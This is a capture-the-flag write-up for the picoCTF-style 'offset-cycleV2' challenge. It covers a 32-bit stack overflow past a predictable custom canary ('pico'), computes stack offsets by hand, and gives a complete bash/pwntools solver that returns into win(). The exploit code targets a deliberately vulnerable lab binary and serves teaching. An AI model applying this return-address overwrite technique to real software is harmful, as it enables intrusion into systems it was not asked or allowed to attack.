




# offset-cycleV2

**Category:** Binary Exploitation
**Difficulty:** Hard
**Author:** Aditya Sudhansu

---

## Challenge Description

The challenge is similar to `offset-cycle`, but this version adds a protection layer.

The challenge description says:

```text
It's a race against time. Solve the binary exploit ASAP.
```

Hints:

```text
1. Each binary is different.
2. Guessing the canary is easy.
3. Use gdb, pwncyclic and pwntools are installed on the machine.
```

The important difference in version 2 is the presence of a custom stack canary.
However, this canary is predictable.

---



## Challenge Behavior

When running:

```bash
./start
```

the challenge randomly selects a C file from the Code Bank, copies it into the working directory, compiles it, and gives the generated binary access to the flag.

Example output:

```text
[+] Selected file: 24.c
[+] Copied 24.c to current directory.
[+] Compilation successful: 24
[+] Binary 24 has access to flag.txt
[*] Deletion scheduled: files will be removed in 80 seconds
```

This means every run may generate a different source file and binary.

Because of that, values such as:

```text
BUFSIZE
stack offsets
payload length
binary name
```

can change between runs.

So the final exploit must calculate everything dynamically.

---

## Source Code Analysis

I started by reading the generated source code.



The program defines:

```c
#define BUFSIZE 236
#define CANARY_SIZE 4
#define FLAGSIZE 64

char global_canary[CANARY_SIZE];
```

The `win()` function reads the flag:

```c
void win() {
    char flag[FLAGSIZE];
    FILE *f = fopen("CodeBank/flag.txt", "r");

    if (!f) {
        puts("Missing flag.txt.");
        exit(0);
    }

    fgets(flag, FLAGSIZE, f);
    puts(flag);
}
```

This is the function we want to reach.

---

## Custom Canary

The program loads a custom canary using this function:

```c
void load_canary() {
    FILE *f = fopen("CodeBank/flag.txt", "r");

    if (!f) {
        puts("Missing flag.txt.");
        exit(0);
    }

    fread(global_canary, 1, CANARY_SIZE, f);
    fclose(f);
}
```

This means the program reads the first 4 bytes of the flag and stores them in `global_canary`.

Since picoCTF flags normally start with:

```text
picoCTF{...}
```

the first 4 bytes are:

```text
pico
```

So the custom canary is:

```python
b"pico"
```

This explains the hint:

```text
Guessing the canary is easy.
```

The canary is not random. It is simply the first 4 bytes of the flag.

---

## Vulnerability

The vulnerable function is:

```c
void vuln() {
    char local_canary[CANARY_SIZE];
    char buf[BUFSIZE];
    char input[BUFSIZE];
    int count, i = 0;

    memcpy(local_canary, global_canary, CANARY_SIZE);

    printf("How many bytes?\n> ");
    while (i < BUFSIZE && read(0, &input[i], 1) == 1 && input[i] != '\n')
        i++;

    sscanf(input, "%d", &count);

    printf("Input> ");
    read(0, buf, count);

    if (memcmp(local_canary, global_canary, CANARY_SIZE) != 0) {
        puts("***** Stack Smashing Detected *****");
        exit(0);
    }

    puts("Ok... Now Where's the flag?");
}
```

The bug is here:

```c
read(0, buf, count);
```

The value of `count` is fully controlled by the user.

There is no check to make sure:

```text
count <= BUFSIZE
```

So we can provide a large `count` and overflow `buf`.

However, before returning, the program checks:

```c
memcmp(local_canary, global_canary, CANARY_SIZE)
```

Therefore, the payload must overwrite the local canary with the correct value:

```text
pico
```

If the canary is wrong, the program prints:

```text
***** Stack Smashing Detected *****
```

and exits.

---

## Binary Information

I checked the binary with:

```bash
file ./34
checksec --file=./34
```



The binary is:

```text
ELF 32-bit LSB executable
Intel 80386
dynamically linked
not stripped
```

The protections are:

```text
Partial RELRO
No canary found
NX enabled
No PIE
Not stripped
```

Important observations:

* The binary is **32-bit**, so addresses are 4 bytes.
* We use `p32()` for address packing.
* `No PIE` means the address of `win()` is static for the generated binary.
* `No canary found` means there is no compiler stack canary.
* The protection here is a **custom canary**, implemented manually in the source code.
* The binary is not stripped, so symbols like `win` can be found easily.

---

## Exploit Idea

The goal is to overflow `buf`, preserve the custom canary, and overwrite the saved return address with the address of `win()`.

The payload structure is:

```text
padding until custom canary
+ "pico"
+ padding until saved return address
+ address of win()
```

In Python:

```python
payload  = b"A" * canary_offset
payload += b"pico"
payload += b"B" * padding_after_canary
payload += p32(win)
```

The values change depending on the generated binary, so the solver calculates them automatically.

---

## Finding the Stack Offsets

For one generated binary, the disassembly showed stack references like:

```asm
lea eax,[ebp-0x13f]   ; buf
lea eax,[ebp-0x10]    ; local_canary
```

From this:

```text
buf          = ebp - 0x13f
local_canary = ebp - 0x10
saved EIP    = ebp + 0x4
```

So:

```text
canary_offset = 0x13f - 0x10
              = 0x12f
              = 303
```

The saved return address is reached at:

```text
ret_offset = 0x13f + 0x4
           = 0x143
           = 323
```

The padding after the canary is:

```text
padding_after_canary = ret_offset - canary_offset - 4
                     = 323 - 303 - 4
                     = 16
```

For that binary, the payload would be:

```python
payload = b"A" * 303
payload += b"pico"
payload += b"B" * 16
payload += p32(win)
```

But since every generated binary is different, the final solver extracts these offsets dynamically from `objdump`.

---

## Automated Exploitation

Because the generated files are removed after 80 seconds, manual exploitation is not reliable.

The solver automates the process:

```text
1. Run ./start.
2. Extract the generated binary name.
3. Parse the binary with pwntools.
4. Use objdump to disassemble vuln().
5. Locate the stack offset used before read@plt.
6. Locate the stack offset used before memcmp@plt.
7. Compute canary_offset.
8. Compute ret_offset.
9. Build the payload with the known canary "pico".
10. Overwrite the return address with win().
11. Send the payload and read the flag.
```



The solver output shows:

```text
[+] BIN=24
[+] bits=32
[+] win=0x8049316
[+] buf_off=0xc1
[+] canary_slot_off=0x10
[+] canary_offset=177
[+] ret_offset=197
[+] payload_len=201
Ok... Now Where's the flag?
picoCTF{...}
```

This confirms that the solver correctly computed the offsets for the generated binary and redirected execution to `win()`.

---

## Final Exploit Script

```bash
#!/usr/bin/env bash
set -e

OUT=$(./start)
echo "$OUT"

BIN=$(echo "$OUT" | sed -n 's/.*Compilation successful: \([0-9]\+\).*/\1/p' | tail -1)

if [ -z "$BIN" ]; then
    echo "[-] Could not detect generated binary name"
    exit 1
fi

export BIN
echo "[+] BIN=$BIN"

python3 - <<'PY'
from pwn import *
import subprocess
import re
import os
import sys

context.log_level = "error"

BIN = os.environ["BIN"]
path = "./" + BIN

elf = ELF(path, checksec=False)

dis = subprocess.check_output(
    ["objdump", "-d", "-Mintel", path]
).decode(errors="replace")

m = re.search(
    r"^[0-9a-fA-F]+ <vuln>:\n(.*?)(?=^[0-9a-fA-F]+ <|\Z)",
    dis,
    re.M | re.S
)

if not m:
    print("[-] vuln not found")
    sys.exit(1)

lines = [line for line in m.group(1).splitlines() if line.strip()]

def last_frame_offset(call_name):
    idxs = [i for i, line in enumerate(lines) if call_name in line]
    if not idxs:
        raise Exception(f"{call_name} not found")

    idx = idxs[-1]
    window = lines[max(0, idx - 12):idx]

    vals = []
    for line in window:
        r = re.search(r"\[(?:e|r)bp-0x([0-9a-fA-F]+)\]", line)
        if r:
            vals.append(int(r.group(1), 16))

    if not vals:
        raise Exception(f"offset before {call_name} not found")

    return vals[-1]

# Offset of buf is the stack address passed before read@plt
buf_off = last_frame_offset("read@plt")

# Offset of local_canary is the stack address passed before memcmp@plt
canary_slot_off = last_frame_offset("memcmp@plt")

canary_offset = buf_off - canary_slot_off
ret_offset = buf_off + (8 if elf.bits == 64 else 4)

win = elf.symbols["win"]

payload = b"A" * canary_offset
payload += b"pico"
payload += b"B" * (ret_offset - len(payload))
payload += p64(win) if elf.bits == 64 else p32(win)

print(f"[+] bits={elf.bits}")
print(f"[+] win={hex(win)}")
print(f"[+] buf_off={hex(buf_off)}")
print(f"[+] canary_slot_off={hex(canary_slot_off)}")
print(f"[+] canary_offset={canary_offset}")
print(f"[+] ret_offset={ret_offset}")
print(f"[+] payload_len={len(payload)}")

p = process(path)

p.sendlineafter(b"> ", str(len(payload)).encode())
p.sendafter(b"Input> ", payload)

print(p.recvall(timeout=3).decode(errors="replace"))
PY
```

Run it with:

```bash
chmod +x solve.sh
./solve.sh
```

---

## Why the Script Works for Different Binaries

Each generated binary may have a different `BUFSIZE`.

For example:

```text
BUFSIZE 236
BUFSIZE 525
BUFSIZE 895
```

This changes the stack layout and payload size.

Instead of hardcoding these values, the solver uses the disassembly of the generated binary to locate:

```text
buf offset
local canary offset
saved return address offset
```

Then it builds the payload dynamically.

This is why the same solver works even when the selected file changes.

---

## Solution Summary

```text
1. Run ./start to generate a binary and source file.
2. Read the source code.
3. Identify the custom canary.
4. Notice that the canary is read from the first 4 bytes of the flag.
5. Since picoCTF flags start with "pico", the canary is "pico".
6. Identify the vulnerable read:
   read(0, buf, count)
7. Since count is user-controlled, overflow is possible.
8. Preserve the canary in the payload.
9. Use objdump to calculate stack offsets dynamically.
10. Use the win() symbol as the return target.
11. Send:
    padding + "pico" + padding + p32(win)
12. The program returns into win() and prints the flag.
```

---

## Tools Used

```text
file
checksec
objdump
pwntools
Python
Bash
```

---

## Key Takeaways

* A custom canary can be weaker than a real random stack canary.
* Here, the canary is predictable because it is read from the beginning of the flag.
* `read(0, buf, count)` is dangerous when `count` is controlled by the user.
* `checksec` only detects compiler stack canaries, not custom canary logic.
* Disassembly can be used to calculate stack offsets reliably.
* Since every generated binary is different, the exploit must be dynamic.
* Preserving the canary allows the function to return normally into `win()`.

---

## Final Flag

```text
picoCTF{...REDACTED...}
```
